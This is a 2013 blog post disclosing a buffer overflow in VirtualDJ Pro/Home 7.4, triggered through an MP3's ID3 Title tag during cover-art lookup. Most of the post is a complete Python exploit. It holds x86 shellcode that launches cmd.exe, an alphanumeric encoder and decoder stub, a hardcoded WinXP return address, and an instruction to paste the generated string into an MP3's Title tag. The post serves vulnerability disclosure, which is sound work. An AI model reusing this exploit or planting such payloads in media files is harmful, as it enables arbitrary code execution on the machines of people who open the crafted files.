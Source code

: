 ```yaml
---
layout: post
date: 2013-04-20 00:00:00 UTC
title: VirtualDJ Pro/Home 7.4: Buffer Overflow
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.4 and VirtualDJ Home 7.4](http://www.virtualdj.com/) and possibly previous versions of this software. After right-clicking a file and entering the "_File Infos_" > "_Cover..._" menu, VirtualDJ tries to find a cover for the given file on Google Images and stores the request URL in a buffer which looks like: `"http://images.google.com/images?q=X"` where `X` corresponds to the ID3 tag _Title_. Special characters of this tag are ignored, and any sequence of symbols (e.g. ' ', '-', '_') is repalced with '+'. The problem is [once again](2013-03-30-virtualdj-73-buffer-overflow.md) that VirtualDJ does not check if the information stored in the ID3 tags is too big to fit in the buffer.

To exploit this vulnerability, I searched for a `call esp` instruction stored in an address that could be represented with alphanumeric characters, I found such instruction in 0x444D4C64, that is, `"dLMD"`. After entering this call, all the bytes after the _Fake Title_ + _Spaces_ + _Padding_ + `"dLMD"` will be executed. Since we can only use alphanumeric characters, we have to encode the shellcode and decode it in execution time using only bytes in range `[0-9A-Za-z]`. For this purpose I used a function from [ALPHA3](http://code.google.com/p/alpha3/). After that, the original shellcode will be decoded and executed.

```python
#Exploit: VirtualDJ Pro/Home <=7.4 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=Yini294AR2Q 

def encodeData(decoder, data, validValues):
    assert data.find("\0") == -1, "Shellcode must be NULL free"
    data += "\0" #End of shellcode 
    encData = decoder[-2:]
    decoder = decoder[:-2]
    for p in range(len(data)):
        dByte = ord(data[p])
        pxByte = ord(encData[p+1])
        bx, by = encoder(dByte ^ pxByte, validValues)
        encData += chr(bx) + chr(by)
    return decoder + encData
 
def encoder(value, validValues): 
      for bx in validValues:
        imul = (bx * 0x30) &amp; 0xFF
        for by in validValues:
            if imul ^ by == value: return [bx, by]
 

#Shellcode (e.g. run cmd.exe) 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # jmp ESP ntdll.dll WinXP SP2 
shellcode += retAddress

#Arguments 
fakeTitle  = "Greatest Hits of the Internet - Nyan Cat"
while fakeTitle[0]  == " ": fakeTitle = fakeTitle[1:]
while fakeTitle[-1] == " ": fakeTitle = fakeTitle[:-1]
for i in fakeTitle:
    if i not in "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz -":
        raise "Invalid characters in the fake title"
fakeTitle2 = fakeTitle.replace("-"," ")
while " " in fakeTitle2: fakeTitle2 = fakeTitle2.replace(" "," ")

#Exploit 
exploit =  fakeTitle + " "*1024 + "1"*(1026 - len(fakeTitle2)-1)
exploit += "dLMD" #RETN address 
exploit += "XXAI" #ESP := Baseaddr of encoded payload 
exploit += encodeData(
	"TYhffffk4diFkDql02Dqm0D1CuEE", #Baseaddr of encoded payload := ESP 
    shellcode,
    map(ord, list("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"))
)

print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=Yini294AR2Q.

## Log

* __2013-04-07__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-04-20__: Bug ignored. Exploit published.
